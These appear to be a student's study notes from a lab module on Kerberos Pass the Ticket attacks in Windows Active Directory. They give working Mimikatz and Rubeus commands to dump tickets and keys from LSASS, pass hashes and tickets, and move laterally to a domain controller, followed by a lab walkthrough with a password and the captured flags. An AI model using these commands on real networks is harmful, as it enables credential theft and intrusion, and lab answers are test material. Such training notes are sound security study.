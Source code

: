 # Pass the Ticket (PtT) from Windows

## Kerberos Protocol Refresher

Central idea behind Kerberos : not give an account password to every service you use

TGT - Ticket Granting Ticket = first ticket obtained on a Kerberos system. The TGT permits the client to obtain additional Kerberos tickets or TGS.
TGS - Ticket Granting Service = These tickets allow services to verify the user's identity.

Steps :

1. User requests a TGT : authenticate to the domain controller by encrypting the current timestamp with his password hash
2. Domain controller validates user's identity (domain knows the user's password hash, meaning it can decrypt the timestamp)
3. Domain sends a TGT to the user for future requets
4. User wants to connect to an MSSQL database : request a Ticket Granting Service (TGS) to The Key Distribution Center (KDC), presenting its Ticket Granting Ticket (TGT)
5. KDC provide to the user the TGS to the MSSQL database server for authentication



## Harvesting Kerberos Tickets from Windows

Tickets are processed and stored by the LSASS (Local Security Authority Subsystem Service) process.

### Mimikatz

c:\tools> mimikatz.exe
privilege::debug
sekurlsa::tickets /export

.kirbi extension which contain the tickets

exit
dir *.kirbi

Tickets that end with $ = computer account, which needs a ticket to interact with the Active Directory. 
User tickets have the user's name, followed by an @ that separates the service name and the domain.
for example: [randomvalue]-username@service-domain.local.kirbi.

Ticket with the service krbtgt, it corresponds to the TGT of that account.

### Rubeus

Rubeus.exe dump /nowrap

--> Print the ticket encoded in base64 format

Note: To collect all tickets we need to execute Mimikatz or Rubeus as an administrator.



## Pass the Key or OverPass the Hash

### Mimikatz - Extract Kerberos Keys

mimikatz.exe
privilege::debug
sekurlsa::ekeys

### Mimikatz - Pass the Key or OverPass the Hash

mimikatz.exe
privilege::debug
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f

--> create a new cmd.exe window that we can use to request access to any service we want in the context of the target user.

### Rubeus - Pass the Key or OverPass the Hash

Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap




## Pass the Ticket (PtT)

### Rubeus

Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi

**Pass the Ticket - Base64 Format**

Convert .kirbi to Base64 Format :

[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))

Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>

### Mimikatz

mimikatz.exe
privilege::debug
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"

dir \\DC01.inlanefreight.htb\c$



## Pass The Ticket with PowerShell Remoting (Windows)

### Mimikatz - Pass the Ticket for Lateral Movement.

mimikatz.exe
privilege::debug
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john

### Rubeus - PowerShell Remoting with Pass the Ticket

Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

--> createnetonly : sacrificial process/logon session (Logon type 9)

**Rubeus - Pass the Ticket for Lateral Movement**

Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt

# LAB

xfreerdp /u:Administrator /p:"AnotherC0mpl3xP4$$" /v:$TARGET

xfreerdp /v:$TARGET /u:Administrator

cd c:\tools

c:\tools> mimikatz.exe
privilege::debug
sekurlsa::tickets /export
exit

dir

11/05/2023  04:01 AM             1,739 [0;3e4]-0-0-40a50000-MS01$@GC-DC01.inlanefreight.htb.kirbi
11/05/2023  04:01 AM             1,705 [0;3e4]-0-1-40a50000-MS01$@cifs-DC01.inlanefreight.htb.kirbi
11/05/2023  04:01 AM             1,743 [0;3e4]-0-2-40a50000-MS01$@ldap-dc01.inlanefreight.htb.kirbi
11/05/2023  04:01 AM             1,633 [0;3e4]-2-0-60a10000-MS01$@krbtgt-INLANEFREIGHT.HTB.kirbi
11/05/2023  04:01 AM             1,633 [0;3e4]-2-1-40e10000-MS01$@krbtgt-INLANEFREIGHT.HTB.kirbi
11/05/2023  04:01 AM             1,743 [0;3e7]-0-0-40a50000-MS01$@cifs-DC01.inlanefreight.htb.kirbi
11/05/2023  04:01 AM             1,659 [0;3e7]-0-1-40a50000.kirbi
11/05/2023  04:01 AM             1,705 [0;3e7]-0-2-40a50000-MS01$@LDAP-DC01.inlanefreight.htb.kirbi
11/05/2023  04:01 AM             1,743 [0;3e7]-0-3-40a50000-MS01$@ldap-DC01.inlanefreight.htb.kirbi
11/05/2023  04:01 AM             1,633 [0;3e7]-2-0-60a10000-MS01$@krbtgt-INLANEFREIGHT.HTB.kirbi
11/05/2023  04:01 AM             1,633 [0;3e7]-2-1-40e10000-MS01$@krbtgt-INLANEFREIGHT.HTB.kirbi
11/05/2023  04:01 AM             1,641 [0;691f4]-2-0-40e10000-julio@krbtgt-INLANEFREIGHT.HTB.kirbi
11/05/2023  04:01 AM             1,623 [0;69b98]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi
11/05/2023  04:01 AM             1,633 [0;6a4f0]-2-0-40e10000-david@krbtgt-INLANEFREIGHT.HTB.kirbi

3 TGT


mimikatz.exe
privilege::debug
kerberos::ptt "C:\tools\[0;69b98]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
exit

dir \\DC01.inlanefreight.htb\john
type \\DC01.inlanefreight.htb\john\john.txt
Learn1ng_M0r3_Tr1cks_with_J0hn

mimikatz.exe
privilege::debug
kerberos::ptt "C:\tools\[0;69b98]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
powershell
Enter-PSSession -ComputerName DC01
type c:\john\john.txt
P4$$_th3_Tick3T_PSR

